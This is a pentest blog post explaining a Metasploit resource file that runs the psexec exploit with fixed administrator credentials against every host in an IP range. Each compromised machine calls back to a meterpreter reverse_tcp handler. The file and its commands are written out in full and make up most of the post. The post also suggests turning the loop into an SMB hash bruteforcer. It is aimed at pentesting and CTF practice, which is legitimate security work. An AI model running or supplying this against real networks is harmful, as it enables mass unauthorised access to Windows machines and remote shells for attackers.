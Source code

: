 ---
author: mubix
comments: true
date: 2010-09-12 15:06:39+00:00
layout: post
title: Rapid fire PSEXEC for Metasploit
categories:
- metasploit
- meterpreter
- resource files
- script
---

Exploit modules inside of metasploit don't have the ability to run on multiple hosts with one swing of the bat. So I created some code to facilitate that. It's really not much but there are some really juicy pieces of knowledge I learned on the way here.

// The following is a resource file, but instead of just giving you something to download or straight copy and paste, I've broken it up into sections. Also take note of the "setg" which sets the variable globally so that I don't have to set it inside of the psexec module.

```
use multi/handler  
setg PAYLOAD windows/meterpreter/reverse_tcp  
setg LHOST 192.168.1.114  
setg LPORT 80  
set ExitOnSession false

exploit -j -z
```

This first part, while nothing spectacular, sets the multi/handler up before hand so that each run of the exploit module doesn't have to set up and tear down the handler. = fast. The following though is just the setup for the module.

```
use windows/smb/psexec  
set SMBUser Administrator  
set SMBPass password123
```

Here is where it gets interesting though. Windows systems want something in SMBDomain, if they aren't joined to a domain they can take pretty much anything here.

However if they are actually joined to a domain, you either have to have the computer name (which definitely won't play well with a scanner easily) or use domain credentials.

```
set SMBDomain .
```

The "." is something every Windows API programmer would know as it's really well documented, but certainly not every Metasploit user. What it means is basically localhost, since SMB won't take either localhost or 127.0.0.1.

Next up, we don't want each run of the exploit module to build the multi/handler and tear it down every single run. That's why we built it first and set DisablePayloadHandler inside of the psexec module.

```
set DisablePayloadHandler true
```

Resource files have been able run blocks of ruby in metasploit since revision 8876. By putting the `<ruby>` html like block identifier you can then use the power of Ruby combined with Rex (Metasploit's API) to do really cool stuff.

More setup, but this time for the ruby portion. Using Metasploit's RangeWalker, we can take all kinds of input, an IP, a CIDR range, and even a line separated file of IP addresses using the "file:" prefix.

```ruby
<ruby>  
require 'rex/socket/range_walker'  
rhosts = "192.168.92.0/24"  
iplist = Rex::Socket::RangeWalker.new(rhosts)  
iplist.each do |rhost|
```

So, we've included RangeWalker, parsed it, and loaded it into an 'each' for loop.

The `self.run_single` function allows you to send commands like you were outside of the ruby block to msfconsole. We are setting the RHOST to each IP that RangeWalker parsed out, simple right?

```ruby
	self.run_single("set RHOST #{rhost}")  
	self.run_single("exploit -j -z")
end  
</ruby>
```

That's it, we send all of the exploit modules one at a time to the background and tell it not to interact with it using the "-z -j" just as we did with multi/handler.

Now, if your credentials worked on any of the IPs you'll have sessions waiting for you.

This can easily be extended with one more loop and a bit of shuffling to make this in to a SMB bruteforcer that accepts hashes!.

Hope you learned a few things. Oh, and just a caveat, this is NOT quiet or stealthy and will probably get you caught on a blackbox pentest, but this is really great for the smash and grab style of  CTF competitions.